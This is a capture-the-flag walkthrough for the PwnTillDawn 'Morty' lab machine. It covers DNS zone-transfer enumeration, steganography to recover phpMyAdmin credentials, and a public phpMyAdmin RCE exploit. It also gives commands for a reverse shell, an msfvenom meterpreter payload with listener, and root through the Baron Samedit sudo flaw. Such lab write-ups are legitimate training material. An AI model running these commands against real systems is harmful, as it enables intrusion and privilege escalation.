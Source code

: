 ```yaml
---
layout: post
title: PwnTillDawn - Morty Write-Up
date: 2025-02-26
classes: wide
description: Using DNS queries to enumerate subdomains, acquiring credentials from images through steganography to access phpMyAdmin and exploring known CVEs to acquire shell and set foothold inside the target server.
---
```


# Morty (10.150.150.57)

![](/assets/img/post/pwntilldawn_morty/1.png)



## Initial Scanning

As usual, let's use Nmap to identify services in the machine:

```shell
sudo nmap -sV -sC -p- 10.150.150.57 -oN scans/nmap.txt
```

![](/assets/img/post/pwntilldawn_morty/2.png)

Some relevant information from the scanning result:

- Default port for SSH is available, maybe it can be accessed later on
- DNS service (`ISC BIND 9.16.'`) is also available, typing that it'll be either exploited or used for enumeration
- Lastly, an `Apache 2.4.41` that has a `note.html` on it's root.



## DNS Treasure Hunt

The `note.html` file is a message from Rick to Morty (If you've never watched Rick and Morty, you should) informing that a domain (`mortysserver.com`) has been configured:

```
Morty,
if you read this: I've already configured your domain 'mortysserver.com' on this server, don't bother me with it anymore!!
-Rick
```

So we'll be adding the domain to our `/etc/hosts` file.

```
10.150.150.57 mortysserver.com
```

Once we access the index page from the server, we'll be greeted with a welcome message and the following text and image:

```
WELCOME TO MORTY'S SERVER
Is it a password? Maybe.
```

And the following background image with a `Fl4sk#!` password written on it:

![](/assets/img/post/pwntilldawn_morty/3.png)

I'd recommend downloading the image from the site, this will be useful later on.

Enumerating the web server is a waste, we can't find any other directories, and enumerating for virtual hosts only shows the `www` which is the same page with no additional information. Time to take advantage of that DNS service running and see if we can identify new subdomains through different queries.

```shell
dig axfr @10.150.150.57 mortysserver.com
```

![](/assets/img/post/pwntilldawn_morty/4.png)

Although requesting any records returns an `email` subdomain, it doesn't have any additional information, instead it has the same contents as `www`, but requesting a Zone Tranfer reveals a new subdomain: `rickscontrolpanel`. Once more, the newly found subdomain must be added in `/etc/hosts` file:

```
10.150.150.57 mortysserver.com rickscontrolpanel.mortysserver.com
```



## I'm in a Stego, Morty!

Accessing Rick's Control Panel show up a phpMyAdmin login page and the first flag (`FLAG1`), which unfortunately we don't have credentials to access:

![5](/assets/img/post/pwntilldawn_morty/5.png)

After trying to guess some obvious usernames such as *Rick* and *Morty*, I've thought about something different. The image we saw earlier had been edited to add the password, so maybe it's related to it as well. Thought we can't find any information in metadata, the password can be used to extract information from the image using Steghide:

```shell
steghide extract -sf screen.jpeg
```

Extracting from the image generates a new file called `keytotheuniverse.txt` and the file does contain credentials that can be used to access phpMyAdmin:

```
rick:WubbaLubbaDubDub1!
```



## CVE-137 Morty! It’s a Classic!

Now we have access to phpMyAdmin, and the second flag (`FLAG2`):

![6](/assets/img/post/pwntilldawn_morty/6.png)

The application has no further information about what should we do, and using the same credentials for SSH didn't work. So I've decided to search for known CVEs based on PMA version that's available on source-code (`4.8.1`) and found a this [one](https://www.exploit-db.com/exploits/50457):

![7](/assets/img/post/pwntilldawn_morty/7.png)

Who doesn't love RCE exploits? This exploit does require credentials, which we have at our disposal, so let's use it:

```shell
python exploit.py rickscontrolpanel.mortysserver.com 80 / rick WubbaLubbaDubDub1! 'cat /etc/passwd'
```

![8](/assets/img/post/pwntilldawn_morty/8.png)

Great! Now just we can either explore the server using this exploit or upload a shell. I've decided to use Python to server a PHP reverse shell, download it remotely using `wget` and use netcat to receive the connection.

![9](/assets/img/post/pwntilldawn_morty/9.png)

After enumerating the server, thinking about how to escalate privileges, I've discovered that the last flag (`FLAG3`) was easily accessible in Morty's home directory:

![10](/assets/img/post/pwntilldawn_morty/10.png)

With the final flag, the CTF comes to the end!



## Bonus: Rooting the Server

Though there's no purpose in rooting this server since it has no additional flags, compromising a single user itself wasn't enough for me, so I've found out the server can actually be rooted by abusing **CVE-2021-3156** (a.k.a. Baron Samedit). The easiest way to exploit this CVE is by uploading a Metasploit reverse shell to the server and using it's post modules to run the exploit. You can use `msfvenom` to generate the payload:

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=tun0 lport=4444 -f elf -o shell
```

Python's`http.server` to serve the payload:

```
sudo python -m http.server 80
```

Then, use msfconsole to setup the listener:

```
msfconsole -x "use multi/handler;set lhost=tun0;set lport=4444;run -j"
```

Once the session is established, you should use the CVE module available in `linux/local/sudo_baron_samedit`:

![11](/assets/img/post/pwntilldawn_morty/11.png)

And you're good to go:

![12](/assets/img/post/pwntilldawn_morty/12.png)

As you can see, no additional flags, but still cool anyways!